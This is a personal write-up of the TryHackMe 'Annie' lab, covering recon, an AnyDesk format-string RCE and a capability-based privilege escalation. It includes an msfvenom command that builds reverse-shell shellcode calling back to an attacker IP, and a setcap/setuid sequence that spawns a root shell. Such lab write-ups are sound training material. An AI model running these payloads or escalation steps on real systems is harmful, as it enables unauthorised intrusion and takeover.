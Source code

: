 # Annie Helped-Through

Name: Annie
Date:  19/01/2023
Difficulty:  Medium
Goals:  
- Keep OSCP mindset and method
- Power through this brain fuzz flu with fun and community
- Concatenate my OSCP notes and my QBM for a better workflow, improving cpabablities and retention
- \*Bins usage for the red team
- Patch the vuln
- Write my Naabu script replacement for masscan in AutomateRecon
Learnt:
- C and Exploit basic expliot Dev revision
- Example of combining pieces of a privilege escalation
- Check the shebang on the python exploit.
Beyond Root:
- Patch the exploit

I decided to take a break from pretty much everything as this brain fuzz from this flu is still going to keep affecting me. Needed to think about my challanges and objectives for the year so the time helped. So I am here once again with Helped-Through just because I have felt at peak cognitively for like 4-5 weeks. Christmas was a good distraction from that, but life goes on. I also want to finish off [[Temple-Helped-Through]], [[Biblioteca-Helped-Through]] and [[Agent-T-Writeup]] along with [[Aratus-Helped-Through]] to round out some beyond root activities I need to do. Also I need to push my execise routine to higher than it was pre 2023 and these stream have the stream raiders segements to get up, stretch and pound out another straight one punch man plus extras.

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.
![ping](TryHackMe/Markdown/Annie/Screenshots/ping.png)



Nmap finds AnyDesk Client. Presumptively I already `searchsploit`-ed and search engine dorked it, but the was not an idication of the exactness of the version from what I or the stream gather. [AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) leads to a detailed blog post. 

Al asks what [TCP Wrappers](https://en.wikipedia.org/wiki/TCP_Wrappers) is a host-based networking ACL system used to filter network access to TCP/IP Unix-like OSs thereby allowing the host or subnet information - IPs, names, ident query replies, to be used as tokens on which to filter for access control purposes. [Regrading how to bypass TCP Wrappers](https://security.stackexchange.com/questions/23407/how-to-bypass-tcpwrapped-with-nmap-scan) the [author of the SecWiki article](https://secwiki.org/w/FAQ_tcpwrapped) - *"When `nmap` ([[Nmap-Cheatsheet]]) labels something `tcpwrapped`, it means that the behavior of the port is consistent with one that is protected by tcpwrapper. Specifically, it means that a full TCP handshake was completed, but the remote host closed the connection without receiving any data. It is important to note that tcpwrapper protects _programs_, not ports. This means that a valid (not false-positive) `tcpwrapped` response indicates a real network service is available, but you are not on the list of hosts allowed to talk with it. When such a large number of ports are shown as `tcpwrapped`, it is unlikely that they represent real services, so the behavior probably means something else. What you are probably seeing is a network security device like a firewall or IPS. Many of these are configured to respond to TCP portscans, even for IP addresses which are not assigned to them. This behavior can slow down a port scan and cloud the results with false positives."
 

This was easy the only issue I would have had is figuring this out to be a python2 exploit when the code looks very python3. 

## Exploit

[AnyDesk Client RCE](https://www.exploit-db.com/exploits/49613) is format string vulnerability, which is using formatting of strings in functoin calls with a foprmat specifier  `"%s"`, which points to a  character array that is reference after the literal string `"string data here"`. These character arrays are terminated with a null byte to indicate that the string has ends. Basically you can use `printf` usign format strings that are point to parts of memory that can be used to dump memory it should not. Or with `scanf` write data to memory. `C` has a history of unsafe memory handling, there aer safer versions of functions that are still commonly referrenced in modern C tutorials and bootcamps. 

[Al read and explained the blog post](https://devel0pment.de/?p=1881), some takeways.
- Al points out this is ACTUALLY a UDP exploit from reading the script. - Read the script

The only change is required is the the shellcode. It failed and I orginally thought it was due to byte and string related pissues of the exploit and that it required modifying by seperating and converting the exploit code passed to the custom function into bytes prior to function call.
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.3.193 LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
```

Just scan the port indicated in the exploit... 
I write this because my solution was to gather data not enumerate the port first. This is has been an issue in the past. Adding this to a another goal of a CTF and my QBM. 


UDP scan:
- Only if a port is closed will RST packet be sent, if a firewall is in the way you will get alot of false positive

Remote Desktop Software will often use UDP for fast a possible data streaming.

Jumping around while tackling the issue rather than the linear linear 

It is also in python2...

## Foothold && PrivEsc

![1000](areyouokanniewiththatpython2exploit.png)

It is a combination of sticky bit on setcap
![](nogtfobins.png)
I remember this on many boxes seperately over the years and in combination
```bash
# Find setcap
find / -type f -perm -04000 -ls 2>/dev/null
# Check the capabilities on a linux system
getcap -r / 2>/dev/null
# copy a binary we control  
cp /usr/bin/python3 /tmp/python3
# give this binary the capabilites to setuid
setcap cap_setuid+ep python3
/usr/bin/python[ver] -c 'import os; os.setuid(0);os.system("/bin/bash")'
```

[Artical](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) on how

![](wearenowroot.png)

## Beyond Root

I changed this beyond root to compile all of my previous musing over boxes thought and wrote for 30 minutes but problems with solving problems 